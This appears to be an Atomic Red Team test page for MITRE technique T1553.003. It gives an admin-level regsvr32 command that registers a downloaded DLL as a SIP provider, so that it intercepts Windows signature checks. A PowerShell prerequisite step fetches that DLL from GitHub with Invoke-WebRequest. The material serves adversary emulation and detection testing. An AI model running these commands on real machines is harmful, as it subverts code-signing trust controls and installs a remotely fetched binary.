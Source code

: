 ```yaml
---
tags: [T1553_003, atomic_test]
filename: "[[T1553.003 - Subvert Trust Controls- SIP and Trust Provider Hijacking]]"
---
```

# T1553.003 - Subvert Trust Controls: SIP and Trust Provider Hijacking

## Atomic Test #1 - SIP (Subject Interface Package) Hijacking via Custom DLL
Registers a DLL that logs signature checks, mimicking SIP hijacking. This test uses a DLL from 
https://github.com/gtworek/PSBits/tree/master/SIP and registers it using regsvr32, thereby causing
the system to utilize it during signature checks, and logging said checks.

**Supported Platforms:** Windows


**auto_generated_guid:** e12f5d8d-574a-4e9d-8a84-c0e8b4a8a675





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | Path to GTSIPProvider.dll | path | PathToAtomicsFolder&#92;T1553.003&#92;bin&#92;GTSIPProvider.dll|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
regsvr32.exe #{dll_payload}
```

#### Cleanup Commands:
```cmd
regsvr32.exe /u #{dll_payload}
```



#### Dependencies:  Run with `powershell`!
##### Description: GTSIPProvider.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/gtworek/PSBits/raw/2aa885c7d09f7f100997bfa5ee0c404084177f24/SIP/GTSIPProvider.dll" -OutFile "#{dll_payload}"
```




<br/>
